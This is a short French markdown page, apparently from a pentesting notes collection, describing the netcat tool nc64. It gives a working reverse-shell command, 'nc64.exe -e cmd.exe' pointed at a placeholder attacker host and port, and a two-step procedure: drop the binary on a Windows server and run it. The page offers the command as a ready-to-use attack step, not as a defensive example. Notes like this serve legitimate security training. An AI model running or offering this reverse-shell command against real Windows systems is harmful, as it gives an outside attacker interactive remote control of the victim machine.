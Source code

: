 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](tools.md)</sub>
#nc64

**Utilisation :** exécuter un reverse shell sur windows

**CMD :** nc64.exe -e cmd.exe **LHOST** **LPORT**

**Procédure :**
- Déposer le fichier sur un serveur Windows
- L'exécuter
  
